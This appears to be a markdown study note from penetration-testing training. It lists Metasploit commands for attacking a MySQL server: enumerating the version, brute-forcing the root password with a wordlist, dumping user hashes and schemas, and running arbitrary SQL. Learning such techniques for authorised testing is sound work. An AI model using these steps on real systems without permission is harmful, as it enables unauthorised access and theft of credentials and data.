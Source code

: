 ## MySQL
* An open-source relational DB management system nased on SQL.
* Used to store web application data.
* MySQL utilizes TCP port 3306 by default.
* **How can MySQL can be exploited**
  * Various  auxiliary modules can be used to enumerate the version of MySQL,
  * perform brute-force attacks to identify passwords,
  * execute SQL queries
 
  * **PRACTICAL**
  * `service postgresql start`
  * `msfconsole`
  * `workspace -a [name]`
  * `setg rhosts [IP]`
  * `set rhost [IP]`
  * `use auxiliary/scanner/mysql/mysql_version
  * `run`
  * ***
  * **Brute-force attack**
  * `use auxiliary/scanner/mysql/mysql_login`
  * `set username root`
  * `set pass_file /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt`
  * `run`
  * Using this info:
  * `use auxiliary/admin/mysql/mysql_enum`
  * `set username root`
  * set password [password from brute-force attack]`
  * `run` --> Will list users, their hosts and hashes for some users.
  * ***
  * **To run any SQL command on the target**
  * `use auxiliary/admin/mysql/mysql_sql`
  * `set username root`
  * `set password [password from brute-force attack]`
  * `set SQL [SQL query like show databases];`
  * `run`
  * ***
  * **Display all the databses and the tables that fall under these tables**
  * `use auxiliary/scanner/mysql/mysql_schemadump`
  * `set password [password from brute-force attack]`
  * `set username root`
  * `run`
  * ***
  * `exit`
  * 
  * `mysql -h [target IP] -u [username] -p` --> -p shows the login involves authentication through a password. If not provided it will check if login without a password is allowed.
 
  * **How to see the history of these outputs**
  * `hosts`
  * `services`
  * `loot`
  * `creds`
 
  * **List of modules that can be used to exploit mysql**
  * auxiliary/admin/mysql/mysql_enum
  * auxiliary/admin/mysql/mysql_sql
  * auxiliary/scanner/mysql/mysql_file_enum
  * auxiliary/scanner/mysql/mysql_hashdump
  * auxiliary/scanner/mysql/mysql_login
  * auxiliary/scanner/mysql/mysql_schemadump
  * auxiliary/scanner/mysql/mysql_version
  * auxiliary/scanner/mysql/mysql_writable_dirs
